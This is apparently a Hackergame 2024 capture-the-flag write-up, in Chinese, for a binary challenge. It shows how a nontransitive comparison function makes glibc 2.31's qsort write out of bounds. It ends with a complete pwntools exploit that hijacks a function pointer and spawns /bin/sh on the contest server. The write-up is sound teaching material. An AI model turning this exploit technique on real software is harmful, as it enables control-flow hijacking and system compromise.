 # 我们的快排確有問題

题解作者：[eastXueLian](https://github.com/AvavaAYA)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](../../credits.pdf)。

## 题目描述

- 题目分类：binary

- 题目分值：250

不愿意接受 glibc `qsort()` 的同学，不用来填写（GPA），你们不会受到任何處分！

---

**[点击下载题目附件](files/sort_ur_jipei.zip)**

附件运行不起来？可能是 glibc 版本的问题！使用 `patchelf --replace-needed libc.so.6 ./libc-2.31.so ./sort_ur_jipei && patchelf --set-interpreter ./ld-2.31.so ./sort_ur_jipei` 试试。

你需要运行 `/1w4tch` 来获得 flag。

你可以通过 `nc 202.38.93.141 31341` 来连接，或者点击下面的「打开/下载题目」按钮通过网页终端与远程交互。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

[打开/下载题目](http://202.38.93.141:31342/?token={token})

## 题解

本题的 idea 和文案设计是 [@taoky](https://github.com/taoky) 提供的。我做了实现。

题目提供了源码，主要逻辑都在 `main` 函数中，调用 GLIBC 里的 `qsort` 进行了两次排序。从源码来看不存在明显的漏洞 ~~（希望如此）~~，尽管有一个危险的函数指针，但是在内存中被放在排序数组之前，看起来很难篡改：

```c
struct {
        int (*sort_func)(const void *const, const void *const);
        double temp_sort_array[MAX_STU_NUM];
} gms;
```

通过搜索、测试或者~~阅读 GLIBC 源码~~等不同方法都能很快地找到漏洞：

1. 注意到排序函数 `whos_jipiei_is_better` 非常奇怪，例如传入 `a=1.0` 和 `b=4.3` 就会得到 `a<b` 且 `b<a` 的结果，即这是一个非对称也非传递的比较函数。很多情况下非传递的比较函数会影响排序算法的正确性，因此怀疑 GLIBC 的 `qsort` 函数在这种情况下存在越界行为，可以在网上搜索得到 [For the algorithm lovers: Nontransitive comparison functions lead to
out-of-bounds read & write in glibc's qsort()](https://www.qualys.com/2024/01/30/qsort.txt) 这篇来自 [Qualys](https://www.qualys.com/) 的高质量 Write-Up。进行简单阅读后可以对比发现题目 GLIBC 版本小于 2.39、比较函数是非传递的、`malloc` 函数被劫持且始终会返回 `NULL`，均满足漏洞触发条件。
2. 输入一串 `1.0`（数量需要大于 0x80），发现出现了段错误，进行调试注意到 `gms` 结构体中的函数指针居然变成了输入的数据！于是获得控制流劫持的能力。
3. 找到对应版本的 [GLIBC 源码](https://elixir.bootlin.com/glibc/glibc-2.31/source/stdlib/msort.c#L224)，定位到 `qsort` 函数的实现，得到如下惊人的结论：`qsort` 内部实现不是真正意义上的快排，其中优先分配一块内存来进行非原地的归并排序，只有内存分配失败才会进到 `_quicksort` 函数中进行原地排序，其中若遇到了非传递的比较函数则会出现越界写。即下列实现中 `tmp_ptr` 可能出现小于 `base_ptr` 的情况，出现往低地址的越界写：

```c
void
_quicksort (void *const pbase, size_t total_elems, size_t size,
            __compar_d_fn_t cmp, void *arg)
{
  char *base_ptr = (char *) pbase;

    // ...

    char *tmp_ptr = base_ptr;

    // ...

    for (run_ptr = tmp_ptr + size; run_ptr <= thresh; run_ptr += size)
      if ((*cmp) ((void *) run_ptr, (void *) tmp_ptr, arg) < 0)
        tmp_ptr = run_ptr;

    if (tmp_ptr != base_ptr)
      SWAP (tmp_ptr, base_ptr, size);

    run_ptr = base_ptr + size;
    while ((run_ptr += size) <= end_ptr)
      {
        tmp_ptr = run_ptr - size;
        while ((*cmp) ((void *) run_ptr, (void *) tmp_ptr, arg) < 0)
          tmp_ptr -= size;

      }

}
```

现在就可以劫持比较函数为 `doredolaso` 函数地址。最后再结合调试可以得到下次调用比较函数时寄存器内的数据，在数组中布置后门函数地址和 `b"/bin/sh\x00"` 字符串控制 `system` 函数的参数并拿到 shell。

完整利用代码如下：

```python
#!/usr/bin/env python3
# 傳自我的馬克布克

from pwn import *

context.log_level = "info"
context.arch = "amd64"

io = remote("202.38.93.141", 31341)

JOP_gadget = 0x4011DD
GET_my_hwatch_addr = 0x401201

io.recvline()
io.sendline(input("Input your token: ").encode())


def i64tof64(int_value):
    bytes_value = struct.pack("<Q", int_value)
    double_value = struct.unpack("<d", bytes_value)[0]
    return double_value


def f64toi64(double_value):
    bytes_value = struct.pack("<d", double_value)
    int_value = struct.unpack("<Q", bytes_value)[0]
    return int_value


io.recvuntil(":\n".encode())
io.sendline(str(0x100).encode())

stu_list = [4.3 for i in range(0x100)]
stu_list[0x10] = i64tof64(JOP_gadget)

io.recvuntil(":\n".encode())
for i in stu_list:
    io.sendline(str(i).encode())

io.recvuntil(b"...\n")
io.sendline(str(i64tof64(GET_my_hwatch_addr)).encode())
for _ in range(0x100 - 1):
    io.sendline(str(i64tof64(u64(b"/bin/sh\x00"))).encode())

io.interactive()
```
